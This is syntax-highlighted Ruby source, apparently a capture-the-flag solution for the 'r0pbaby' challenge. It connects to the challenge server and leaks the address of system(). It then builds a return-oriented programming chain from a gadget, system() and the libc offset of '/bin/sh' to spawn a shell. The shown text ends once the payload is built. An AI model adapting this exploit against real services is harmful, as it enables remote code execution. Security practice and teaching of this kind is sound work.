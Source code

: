```
<pre id="vimCodeElement">
<span class="PreProc">#!/usr/bin/ruby</span>

<span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>

<span class="Type">SH_OFFSET_REAL</span> = <span class="Constant">0x13669b</span>
<span class="Type">SH_OFFSET_MINE</span> = <span class="Constant">0x11f71c</span>

<span class="Type">GADGET_OFFSET_REAL</span> = <span class="Constant">0xb3e39</span>
<span class="Type">GADGET_OFFSET_MINE</span> = <span class="Constant">0xa7969</span>

<span class="Comment">#HOST = "localhost"</span>
<span class="Type">HOST</span> = <span class="Special">"</span><span class="Constant">r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me</span><span class="Special">"</span>

<span class="Type">PORT</span> = <span class="Constant">10436</span>

s = <span class="Type">TCPSocket</span>.new(<span class="Type">HOST</span>, <span class="Type">PORT</span>)

<span class="Comment"># Receive until the string matches the regex, then delete everything</span>
<span class="Comment"># up to the regex</span>
<span class="rubyDefine">def</span> <span class="Identifier">recv_until</span>(s, regex)
  buffer = <span class="Special">""</span>

  <span class="Statement">loop</span> <span class="Statement">do</span>
    buffer += s.recv(<span class="Constant">1024</span>)
    <span class="Statement">if</span>(buffer =~ <span class="Special">/</span><span class="Special">#{</span>regex<span class="Special">}</span><span class="Special">/m</span>)
      <span class="Statement">return</span> buffer.gsub(<span class="Special">/</span><span class="Special">.</span><span class="Special">*</span><span class="Special">#{</span>regex<span class="Special">}</span><span class="Special">/m</span>, <span class="Special">''</span>)
    <span class="Statement">end</span>
  <span class="Statement">end</span>
<span class="rubyDefine">end</span>

<span class="Comment"># Get the address of "system"</span>
puts(<span class="Special">"</span><span class="Constant">Getting the address of system()...</span><span class="Special">"</span>)
s.write(<span class="Special">"</span><span class="Constant">2</span><span class="Special">\n</span><span class="Special">"</span>)
s.write(<span class="Special">"</span><span class="Constant">system</span><span class="Special">\n</span><span class="Special">"</span>)
system_addr = recv_until(s, <span class="Special">"</span><span class="Constant">Symbol system: </span><span class="Special">"</span>).to_i(<span class="Constant">16</span>)
puts(<span class="Special">"</span><span class="Constant">system() is at 0x%08x</span><span class="Special">"</span> % system_addr)

<span class="Comment"># Build the ROP chain</span>
puts(<span class="Special">"</span><span class="Constant">Building the ROP chain...</span><span class="Special">"</span>)
payload = <span class="Special">"</span><span class="Constant">AAAAAAAA</span><span class="Special">"</span> +
  [system_addr + <span class="Type">GADGET_OFFSET_REAL</span>].pack(<span class="Special">"</span><span class="Constant"><Q</span><span class="Special">"</span>) + <span class="Comment"># address of the gadget</span>
  [system_addr].pack(<span class="Special">"</span><span class="Constant"><Q</span><span class="Special">"</span>) +                      <span class="Comment"># address of system</span>
  [system_addr + <span class="Type">SH_OFFSET_REAL</span>].pack(<span class="Special">"</span><span class="Constant"><Q</span><span class="Special">"</span>) +     <span class="Comment"># address of "/bin/sh"</span>
  <span class="Special">""</span>
```